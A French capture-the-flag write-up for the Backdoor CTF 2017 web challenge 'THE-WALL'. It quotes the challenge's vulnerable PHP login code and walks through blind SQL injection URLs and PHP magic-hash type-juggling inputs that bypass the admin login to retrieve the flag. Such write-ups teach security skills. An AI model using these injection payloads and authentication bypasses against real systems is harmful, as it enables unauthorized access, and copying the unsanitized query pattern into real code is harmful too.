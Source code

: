 Backdoor CTF 2017: THE-WALL
-------

**Catégorie**: Web **Points**: 100 **Description**:

> Night king needs the secret flag to destroy the wall. Help night king get flag from Lord Commander so that army of dead can kill the living
http://163.172.176.29/WALL


Write up
-------

Dans un premier temps en cliquant sur le lien on arrive sur la page http://163.172.176.29/WALL/login.html

On va commencer par regarder le code source de la page voir s'il n'y a pas d'indices:

```html
    <html>
    <head>
    <title>The Wall</title>
    </head>
    <body>
    <form action="index.php" method="POST">
    Username:<input type="text" name="life" /><br>
    Password:<input type="password" name="soul" /><br>
    <input type="submit">
    </form>
    <br>
    Here is the source of <a href="source.php">index.php</a>
    </body>
    </html>
```

On sait maintenant qu'il y a "life" et "soul" envoyés en POST sur la page "index.php".

Maintenant on va regarder la source de la page "index.php" en cliquant sur le lien hypertexte:

```php
    <html>
    <head>
    <title>The Wall</title>
    </head>
    <body>
    <?php
    include 'flag.php';
    if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
        $username = $_REQUEST['life'];
        $password = $_REQUEST['soul'];
        if(!(is_string($username)&&is_string($password))){
            header( "refresh:1;url=login.html");
            die("You are not allowed south of wall");
        }
        $password = md5($password);
        include 'connection.php';
        /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/
        $message = "";
        if(preg_match('/(union|\|)/i', $username)){
            $message="Dead work alone not in UNIONs"."</br>";
            echo $message;
            die();
        }
        $query = "SELECT * FROM users WHERE username='$username'";
        $result = $pdo->query($query);
        $users = $result->fetchArray(SQLITE3_ASSOC);
        if($users) {
            if($password == $users['password']){
                if($users['role']=="admin"){
                    echo "Here is your flag: $flag";
                }elseif($users['role']=="normal"){
                    $message = "Welcome, ".$users['users']."</br>";
                    $message.= "Unfortunately, only Lord Commander can access flag";
                }else{
                    $message = "What did you do?";
                }
            }
            else{
                $message = "Wrong identity for : ".$users['username'];
            }
        }
        else{
            $message = "No such person exists"."<br>";
        }
        echo $message;
    }else{
        header( "refresh:1;url=login.html");
        die("Only living can cross The Wall");
    }
    ?>
    </body>
    </html>
```

De cette façon on apprend plusieurs choses:

* Les deux champs ne peuvent pas être vides, et on peut envoyer notre "username" et notre "password" en GET car on a "$_REQUEST"
    ```php
        if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
            $username = $_REQUEST['life'];
            $password = $_REQUEST['soul'];
    ```
* Le hash du mot de passe est md5 (sa taille est donc de 32 caractères)
    ```php
        $password = md5($password);
    ```
* On sait que la table est "users" et que les colonnes sont: id, username, password, role
    ```php
        /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/
    ```
* On ne pourra pas faire d'union
    ```php
        if(preg_match('/(union|\|)/i', $username)){
            $message="Dead work alone not in UNIONs"."</br>";
            echo $message;
            die();
        }
    ```
* Il y a une injection sql sur username
    ```php
        $query = "SELECT * FROM users WHERE username='$username'";
        $result = $pdo->query($query);
    ```

On va pouvoir commencer notre blind SQLI en récupérant dans un premier temps le pseudo de l'administrateur:

```
   http://163.172.176.29/WALL/index.php?soul=tt&life=' OR role='admin' -- '
```

Bingo ! On obtient le nom d'utilisateur qui est "LordCommander" (comme c'est bizarre).

Maintenant on va commencer par récupérer le mot de passe à la main (comme on est noob) avec des valeurs numérique (on commence par zéro):

```
    http://163.172.176.29/WALL/index.php?soul=tt&life=LordCommander' AND password like '0%' -- '
```

On a un résultat positif et si le mot de passe commence par 0e on aurait un bug sur du type juggling et c'est logique avec:

```php
    $password = md5($password);
```

On test donc avec "0e":

```
    http://163.172.176.29/WALL/index.php?soul=tt&life=LordCommander' AND password like '0e%' -- '
```

C'est encore gagné ! On a beaucoup de chance aujourd'hui !
On va maintenant pouvoir tester avec un mot de passe qui en md5 commence par "0e" et qui retourne vrai pour:

```php
    if($password == $users['password'])
```

Voici des mots qui fonctionnent:

```
    240610708
    QNKCDZO
    aabg7XSs
```

On envoi donc notre combinaison nom d'utilisateur et mot de passe:

```php
    http://163.172.176.29/WALL/index.php?soul=QNKCDZO&life=LordCommander
```
Bim ! On a le flag qui s'affiche et on gagne 100 points.

![Snow](/images/snow.jpeg)
